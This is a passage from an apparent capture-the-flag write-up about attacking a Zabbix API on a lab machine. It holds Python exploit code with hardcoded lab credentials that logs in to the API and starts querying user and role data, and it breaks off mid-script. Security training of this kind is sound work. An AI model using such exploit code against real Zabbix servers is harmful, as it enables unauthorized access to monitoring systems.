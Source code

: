 ```python

# Print the response
if response.status_code == 200:
    print("Response JSON:", response.json())
else:
    print(f"Request failed with status code {response.status_code}")
    print("Response:", response.text)
```

We get a `token` where we can use now to query our targeted endpoint.    

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225003148.png" alt="1" style="width:700px; height:auto;">
<br/>

The full `exploit`.  

```python
import requests
import json

# Define the API URL and credentials
url = "http://10.10.11.50/zabbix/api_jsonrpc.php"
username = "matthew"
password = "96qzn0h2e1k3"

# Step 1: Authenticate and retrieve the token
def get_auth_token():
    payload = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {
            "username": username,
            "password": password
        },
        "id": 1,
        "auth": None
    }
    headers = {"Content-Type": "application/json"}
    response = requests.post(url, headers=headers, data=json.dumps(payload))
    if response.status_code == 200:
        response_json = response.json()
        if "result" in response_json:
            return response_json["result"]
        else:
            raise Exception(f"Authentication error: {response_json.get('error', {}).get('message', 'Unknown error')}")
    else:
        raise Exception(f"Request failed with status code {response.status_code}")

# Step 2: Retrieve the current user's ID
def get_current_user_id(auth_token):
    payload = {
        "jsonrpc": "2.0",
        "method": "user.get",
        "params": {
        "output": ["userid", "username"],
        "selectRole": "extend",
        "userids": "2"
```